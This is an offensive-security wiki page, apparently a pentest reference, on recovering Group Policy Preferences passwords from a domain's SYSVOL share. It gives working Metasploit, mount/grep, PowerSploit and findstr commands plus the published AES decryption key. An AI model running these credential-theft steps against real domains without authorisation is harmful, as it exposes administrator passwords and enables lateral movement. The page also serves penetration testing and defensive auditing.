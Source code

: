 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policies Preferences

## Theory

Windows systems come with a built-in Administrator \(with an RID of 500\) that most organizations want to changed the password of. This can be achieved in multiple ways but there is one that is to be avoided : setting the built-in Administrator's password through Group Policies.

* **Issue 1** : the password is set to be the same for every \(set of\) machine\(s\) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all \(or set of\) machines.
* **Issue 2** : by default, knowing the built-in Administrator's hash \(RID 500\) allows for powerful [Pass-the-Hash](../../abusing-lm-and-ntlm/pass-the-hash.md) attacks \([read more](../../abusing-lm-and-ntlm/pass-the-hash.md#limitations-tips-and-tricks)\).
* **Issue 3** : all Group Policy are stored in the Domain Controllers' SYSVOL share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted🤷♂ .

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, the Domain Controllers' SYSVOL share can be mounted and recursively grepped.

{% hint style="info" %}
The following operations require mounting the SYSVOL share, it can't be done through a docker environment unless it's run with `privileged` rights.
{% endhint %}

The Metasploit Framework can automatically mount the share, look for the `cpassword` string and decrypt every match.

```bash
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set RHOSTS $DOMAIN_CONTROLLER
msf auxiliary(smb_enum_gpp) > set SMBDomain $DOMAIN
msf auxiliary(smb_enum_gpp) > set SMBUser $DOMAIN_USER
msf auxiliary(smb_enum_gpp) > set SMBPass $DOMAIN_PASSWORD
msf auxiliary(smb_enum_gpp) > run
```

This can also be done manually. Tools like [pypykatz](https://github.com/skelsec/pypykatz) \(Python\) and [gpp-decrypt](https://github.com/BustedSec/gpp-decrypt) \(Ruby\) can then be used to decrypt the matches.

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the GPP password can only be recovered from an authenticated \(i.e. domain user\) context \(see [impersonation](../impersonation.md)\).

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a Domain Controller's SYSVOL share `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml` and `Drives.xml` files and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the `cpassword` string in xml files and by then manually decrypting the matches.

```bash
findstr /S cpassword %logonserver%\sysvol\*.xml
```

The decryption process is as follows

```text
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=2288" %}

{% embed url="http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html" %}



